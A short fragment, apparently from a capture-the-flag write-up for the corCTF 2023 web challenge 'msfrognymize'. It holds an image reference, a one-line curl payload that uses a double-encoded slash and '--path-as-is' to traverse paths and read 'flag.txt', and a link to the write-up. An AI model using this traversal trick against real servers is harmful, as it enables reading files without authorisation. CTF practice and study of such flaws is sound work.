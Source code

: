 + payload: curl --path-as-is https://msfrognymize.be.ax/anonymized/%252Fflag.txt


https://fireshellsecurity.team/corctf2023-web/#challenge-msfrognymize
